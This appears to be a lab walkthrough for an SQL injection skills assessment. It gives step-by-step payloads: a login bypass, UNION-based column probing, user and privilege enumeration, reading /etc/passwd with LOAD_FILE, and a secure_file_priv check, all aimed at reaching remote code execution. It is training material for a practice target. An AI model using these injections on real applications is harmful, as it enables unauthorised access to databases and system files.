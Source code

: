 # Skills Assessment - SQL Injection Fundamentals

<img width="1041" height="678" alt="image" src="https://github.com/user-attachments/assets/6f5b4b77-055b-4482-8df9-3c074dcea878" />


## Objective

Assess the web application and use a variety of techniques to gain remote code execution 
and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

## Start Here

From the login screen login using the below injecting: 

`admin' OR '1' = '1' -- -`

This will bring you to the dashboard: 

<img width="1912" height="696" alt="image" src="https://github.com/user-attachments/assets/893a4fd0-c399-4720-981a-6ba3b99ac103" />

Test whether the "SEARCH" field is vulnerable to SQL injections using `'`:

<img width="1683" height="314" alt="image" src="https://github.com/user-attachments/assets/5c3348d9-5c24-4ae1-bf0d-fe8465c8c0a3" />

Utilize UNION injections to attempt reading files from the backend server:

`' UNION SELECT 1,2,3,4,5 -- -`

<img width="1573" height="391" alt="image" src="https://github.com/user-attachments/assets/daaaeb05-2a80-4331-b294-2d634ad91b12" />

Determine the SQL user that is running the queries in the backend server:

`' UNION SELECT 1,user(),3,4,5 -- -`

<img width="1560" height="375" alt="image" src="https://github.com/user-attachments/assets/11bb79cb-d3fe-421a-baa6-fb8197cd1dc9" />

Enumerate all the privileges that the root user has:

`' UNION SELECT 1, grantee, privilege_type, is_grantable, 5 FROM information_schema.user_privileges -- -`

<img width="1507" height="411" alt="image" src="https://github.com/user-attachments/assets/7bf49d2d-9083-4ea7-9e5a-e21bb246d269" />


Attempt to read the /etc/passwd file from the backend server using the LOAD_FILE function:

`' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -`

<img width="1519" height="531" alt="image" src="https://github.com/user-attachments/assets/491cd9d9-ef3d-4869-b09d-9bf0ae49873c" />

Make sure that the MySQL global variable secure_file_priv is not enabled:

`' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -`
